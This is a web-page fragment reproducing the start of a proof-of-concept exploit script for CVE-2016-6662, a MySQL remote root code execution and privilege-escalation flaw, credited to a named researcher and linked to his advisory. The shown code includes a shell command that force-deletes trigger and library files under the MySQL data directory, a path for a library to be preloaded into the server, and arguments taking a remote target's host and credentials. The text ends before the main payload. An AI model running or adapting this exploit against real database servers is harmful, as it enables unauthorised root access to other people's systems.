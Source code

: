 



**POC**

****

```
----------[ 0ldSQL_MySQL_RCE_exploit.py ]--------------
#!/usr/bin/python
# This is a limited version of the PoC exploit. It only allows appending to
# existing mysql config files with weak permissions. See V) 1) section of 
# the advisory for details on this vector. 
#
# Full PoC will be released at a later date, and will show how attackers could
# exploit the vulnerability on default installations of MySQL on systems with no
# writable my.cnf config files available.
#
# The upcoming advisory CVE-2016-6663 will also make the exploitation trivial
# for certain low-privileged attackers that do not have FILE privilege.
# 
# See full advisory for details:
# http://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.txt
#
# Stay tuned ;)
intro = """
0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)
(CVE-2016-6662) MySQL Remote Root Code Execution / Privesc PoC Exploit
For testing purposes only. Do no harm.
Discovered/Coded by:
Dawid Golunski
http://legalhackers.com
"""
import argparse
import mysql.connector    
import binascii
import subprocess
def info(str):
    print "[+] " + str + "n"
def errmsg(str):
    print "[!] " + str + "n"
def shutdown(code):
    if (code==0):
        info("Exiting (code: %d)n" % code)
    else:
        errmsg("Exiting (code: %d)n" % code)
    exit(code)
cmd = "rm -f /var/lib/mysql/pocdb/poctable.TRG ; rm -f /var/lib/mysql/mysql_hookandroot_lib.so"
process = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
(result, error) = process.communicate()
rc = process.wait() 
# where will the library to be preloaded reside? /tmp might get emptied on reboot
# /var/lib/mysql is safer option (and mysql can definitely write in there ;)
malloc_lib_path='/var/lib/mysql/mysql_hookandroot_lib.so'
# Main Meat
print intro
# Parse input args
parser = argparse.ArgumentParser(prog='0ldSQL_MySQL_RCE_exploit.py', description='PoC for MySQL Remote Root Code Execution / Privesc CVE-2016-6662')
parser.add_argument('-dbuser', dest='TARGET_USER', required=True, help='MySQL username') 
parser.add_argument('-dbpass', dest='TARGET_PASS', required=True, help='MySQL password')
parser.add_argument('-dbname', dest='TARGET_DB',   required=True, help='Remote MySQL database name')
parser.add_argument('-dbhost', dest='TARGET_HOST', required=True, help='Remote MySQL host')
```
